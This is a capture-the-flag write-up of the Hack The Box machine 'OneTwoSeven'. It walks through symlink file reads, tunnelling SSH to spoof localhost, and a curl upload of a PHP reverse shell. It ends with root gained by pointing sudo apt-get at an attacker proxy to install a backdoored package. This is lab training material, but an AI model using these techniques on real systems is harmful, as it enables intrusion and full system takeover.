






<p align="center">
  
</p>

***

# External Recon
I started with my usual "nmap" scan:


$ nmap -sC -sV -oN initial 10.10.10.133

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))


After this scan I "triple-tap" my target with a "script-" and a "all-ports-scan".
While the script-scan gave me no obvious further information to work with, the all-ports
scan gave me another "port 60080 to work with.

A quick scan told me it's an unknown service and filtered.

```
PORT      STATE    SERVICE VERSION
60080/tcp filtered unknown
```

# Explore

Since we just have one really interesting port to play with, I focused on it.
Opening "port 80" in my browser showed a website advertising their "secure" "SFTP" Service.


First thing that stands out is the "admin" option in the menu.
But it's disabled and not clickable.


A quick look into the source-code of the site reveals a comment for that "admin" option.




        <!-- Only enable link if access from trusted networks admin/20190212 -->
        <!-- Added localhost admin/20190214 -->
		  <li class="nav-item"><a id="adminlink" class="nav-link disabled" href="http://onetwoseven.htb:60080/">Admin</a></li>


This tells us something about that obscure port we found ealier. We can't access the admin link from the "WAN".
But we've got a "DNS-Name" we can put into our hosts-file. From now on we access the website only by it's "DNS-Name".

Let's move on for now:

The "Statistics" option showed nothing that peeked my interest.
So I moved on to check the "SignUp" button.


We jump to a "singup.php" site and get some login-credentials.
Followed by some instructions how to use them.



Apperently I can upload files to: "sftp://onetwoseven.htb" and view them here: "http://www.onetwoseven.htb/~ots-iM2I4N2Q".
After login I found this setup:


Let's put some content on it, shall we?


As you can see, I tried uploading a "php-info.php" script into the root-directory but are not allowed to.
After switching to the subdirectory the upload was successful.
Can we get code-execution?


Bummer. ;)
Let's try something else:


Ok. We are just not allowed to use php on the server. What now?
I tried a couple of things at this point, like:

* Directory-Traversals
* Different types of executables like "asp" or "aspx". (I test such things even when it's a Linux server. You never know. ;)

And of cause: "Symlinks"




Bingo! We can read local files. We just have two entries. One is us. And one is well - someone else.
Let's ignore (but keep in mind) that the other user has a "127.0.0.1" in his entry.

But what-else can we read? Maybe folders?


Hell yeah! (Don't be mistaken here. This looks straight forward now. But it took me quite some time to figure that out.)
I systematically went through all folders manually to check it's contents. Most folder weren't accessible to me though.

However one file was indeed the next step forward. The "login.php.swp" file.


The file looked like some sort of temporary file. And wasn't readable by a normal text-editor. So I ran `strings` against it to get
as much stuff out of there as possible. Which actually was quite successful if you ask me. ;)


With a hash found, I went to an <a href="https://crackstation.net/" target="_blank">online-hashcrack-website</a> to see if it's a known hash.


Sure enough we get a username "ots-admin" and password `Homesweethome1`. But for what service?
I tried to login to "SFTP" but get a "permission denied".

Remember that "admin" option? It's time check it ..... somehow.

# Weaponize

Let's recap what we know and have.

* "admin panel" accessible from "localhost"
* "admin credentials" to probably that "admin panel"
* "SFTP" access with normal user
* `/etc/passwd` (*wink wink*)

But how can we trick the server thinking we are "localhost"?
Let's BECOME "localhost" by using our access to build a "ssh-tunnel".

`ssh -N -L 80:127.0.0.1:80 ots-iM2I4N2Q@10.10.10.133`

and then accessing the Website again via "127.0.0.1".


As you see we can now can access the "admin panel".
But before doing that - Do you remember that user with "127.0.0.1" in his entry?
We are now "127.0.0.1". Think a second what this implies. :)

Ok. Got it? No?
No worries - it took me a while to get that part myself. We have access to his "SFTP"
account now. How?

Well - take a look at the "SignUp" Page.


We come from "127.0.0.1" therefore the application thinks we are him and presents us the password.
But before we can use the credentials we need to make sure we are comming from "127.0.0.1" for the "SFTP"
service aswell. Our present tunnel is just for "port 80" not "port 22".

`ssh -N -L 22:127.0.0.1:22 ots-iM2I4N2Q@10.10.10.133`


Oh - there's the `user.txt`. That was unexpected right? We can now focus to get access to that box.
Although the "admin-panel" link is now clickable - we can't access the site right away because it's listening on "port 60080".
Yep - you guest it. Another "tunnel" is needed.

`ssh -N -L 60080:127.0.0.1:60080 ots-iM2I4N2Q@10.10.10.133`


I used the credentials we cracked earlier.
But as you can see - there's a disabled upload button again. We can just enable it in the sourcecode.


But because we might want to upload something over and over again - it would be a time saver to do it with "curl".

# Exploit

In order to build my "curl" query I started "Burp" to see how the request would look like and what "cookie" value I need to send over.



An alternative and simpler way is to use the "developer-tools" of your browser to get the cookie.


After some trial and error I came up with the following command:

```
curl -H 'Cookie: PHPSESSID=immqdajjjet662lm9qctfrt7h3' -H 'Host: onetwoseven.htb' --form 'addon=@/root/HTB/Boxes/OneTwoSeven/ots-shell.php' 'http://127.0.0.1:60080/addon-download.php?addon=/addon-upload.php' -vvv

```

<a href="https://davidwalsh.name/curl-post-file" target="_blank">This article</a> was very helpful if you want to learn more.

After uploading a simple "php-reverse-shell", we can open a "ncat" session and launch our "reverse-shell" and doing our cli-magic after receiving it.


# Privilege Escalation

This write-up is already getting very long. So I come right to the meat of the "PrivEsc".
When doing proper post-exploitation-recon, one command should not be missed: `sudo -l`.

Also this time it reveals what our target is.



```
env_reset, env_keep+="ftp_proxy http_proxy https_proxy no_proxy",mail_badpass,

User www-admin-data may run the following commands on onetwoseven:
(ALL : ALL) NOPASSWD: /usr/bin/apt-get update, /usr/bin/apt-get upgrade
```

Our user ("www-data") is allowed to update the system and he has also the right to set the `http_proxy` environment-variable.

How does a upgrade look like right now?


sudo apt-get update
Err:1 http://packages.onetwoseven.htb/devuan ascii InRelease
  Temporary failure resolving 'packages.onetwoseven.htb' <------
Err:2 http://de.deb.devuan.org/merged ascii InRelease
  Temporary failure resolving 'de.deb.devuan.org'
Err:3 http://de.deb.devuan.org/merged ascii-security InRelease
  Temporary failure resolving 'de.deb.devuan.org'
Err:4 http://de.deb.devuan.org/merged ascii-updates InRelease
  Temporary failure resolving 'de.deb.devuan.org'
Reading package lists...


This is the last missing bit. Because "APT" tries to resolve "packages.onetwoseven.htb" we can high-jack that request.
Which in turn means, we can install a malicious package as root.  I'll put a couple of links at the end for further reference on this topic.

The steps and network setup are roughly these:

```
1. Backdoor APT-Package
2. Set http_proxy to attacker-proxy
3. Redirect traffic from attacker-proxy to attack-webserver
4. Rebuild APT-Repository
5. Open a Reverse-Shell listener
6. Start upgrade
7. root!

<Victim> ---- [http_proxy=attacker:4444] ---- <4444:attacker:5555> ---- <5555:attacker-webserver> ---- [APT-Repository]

```

As you can see from the next screenshots I backdoored "nano". Just download "nano" from the repository and run:

`dpkg-deb -R nano.deb nano_output`

Then add a post-install script and repack everything and build a repository.


This is how my folders were setup:


Yes, I did that manually. Which was painful, but worked. I later learned about `reprepo` from <a href="https://vulndev.io/2019/05/htb_onetwoseven.html" target="_blank">xct's WriteUp</a>.
A very simple tool for such things. In fact, I used this for this Write-up too.
First because I want to try it myself. Second because my VPN-IP changed, so my "backdoored nano package" wasn't working anymore.
I couldn't be bothered to go through the process of getting the signatures and hashes right again. It obviously has NOTHING to do with crappy note-taking for this part.....

If you would like to roll your own repo for this, you could watch ippsec's video.



Let's setup "Burp" and "http_proxy":


`export http_proxy='http://10.10.14.32:4444'`

Make sure "Intercept" is off.

# Root Flag

After running an `update` we see hits on our webserver. And after an `upgrade` we can install our backdoored
"nano" and get a "root-shell".


One of my favorite boxes so far! :)
See you next time.

Additional Ressoures:
* <a href="https://versprite.com/blog/apt-mitm-package-injection/" target="_blank">APT-Mitm-Package-Injection</a>
* <a href="https://lsdsecurity.com/2019/01/linux-privilege-escalation-using-apt-get-apt-dpkg-to-abuse-sudo-nopasswd-misconfiguration/" target="_blank">APT-PrivEsc</a>
* <a href="http://wiki.blue-panel.com/index.php/Create_Signed_APT_repository" target="_blank">Create-Signed-APT-Repo</a>
